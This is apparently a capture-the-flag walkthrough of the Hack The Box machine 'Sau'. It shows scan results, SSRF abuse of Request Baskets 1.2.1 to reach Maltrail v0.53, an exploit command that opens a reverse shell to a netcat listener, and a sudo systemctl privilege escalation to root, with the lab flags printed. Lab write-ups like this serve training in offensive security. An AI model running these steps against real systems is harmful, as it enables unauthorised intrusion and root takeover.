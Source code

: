```yaml
---
title: "sau from HTB"
categories: [Hack The Box]
tags: [Hack The Box]
---
```

# sau from HTB
[page](https://app.hackthebox.com/machines/Sau)
`Nmap`gave this:
```bash
PORT      STATE    SERVICE   VERSION
22/tcp    open     ssh       OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 aa:88:67:d7:13:3d:08:3a:8a:ce:9d:c4:dd:f3:e1:ed (RSA)
|   256 ec:2e:b1:05:87:2a:0c:7d:b1:49:87:64:95:dc:8a:21 (ECDSA)
|_  256 b3:0c:47:fb:a2:f2:12:cc:ce:0b:58:82:0e:50:43:36 (ED25519)
80/tcp    filtered http
7080/tcp  filtered empowerid
8338/tcp  filtered unknown
19667/tcp filtered unknown
34980/tcp filtered ethercat
55555/tcp open     unknown
```
`80 port`is filtered so we can't access it. Only open port is `55555`and let's access it.
Accessing the site we see that it is a `request basket`site and version is `1.2.1`. Quick search shows that this version is vulnerable to `ssrf`. We can access the `80 port`with this vulnerability.
1. Create basket
2.  click `Open Basket`
3. Click `settings logo`
4. And in `Forward URL`type: `127.0.0.1:80`So When we open the basket we will be forwarded to the `80 port`.
5. Check last two things: `Proxy Response` and `Expand Forward Path`
6. Click `Apply`
Proxy Response - This allows the basket to behave as a full proxy: responses from the underlying service configured in `forward_url` are passed back to clients of original requests. The configuration of basket responses is ignored in this case.
Expand Forward Path - With this, the forward URL path will be expanded when original HTTP request contains a compound path.
After that instead of accessing the `<ip>:80` type `<ip>:55555/<basked id>`.
For me it is like this:
```
http://10.10.11.224:55555/vnjie7d
```
Checking the site we see that it is powered by
```
Maltrail (v0.53)
```
After searching a bit i got to this `github repository`which grants me an reverse shell:
https://github.com/spookier/Maltrail-v0.53-Exploit/tree/main
```
python3 exploit.py [listening_IP] [listening_PORT] [target_URL]
```
Fill this with your `IP PORT and website URL`
For example:
```python
python3 exploit.py 10.10.16.2 1234 http://10.10.11.224:55555/dtfhpmh
```
This got me Connection:
```bash
rlwrap nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.16.2] from (UNKNOWN) [10.10.11.224] 59542
$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
$ cat /home/puma/user.txt
aacebf2e57c90a4492e782dee743ff6d
```
***
User Flag is: aacebf2e57c90a4492e782dee743ff6d
***
With root permission i can run `systemctl`.
```bash
sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```
Check the version `always` because of version it is vulnerable
After quick search i got to this site which showed me how to do `privilege escalation with systemctl`: https://medium.com/@zenmoviefornotification/saidov-maxim-cve-2023-26604-c1232a526ba7

```bash
sudo /usr/bin/systemctl status trail.service
# after it stops typing, You need to type !sh
.................
..............
!sh

# id
id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
e8b95f603e7b22e2f257d5975fdd1b52
```
***
Root Flag is: e8b95f603e7b22e2f257d5975fdd1b52
***
![](/assets/images/Screenshot from 2024-08-09 20-49-48.png)

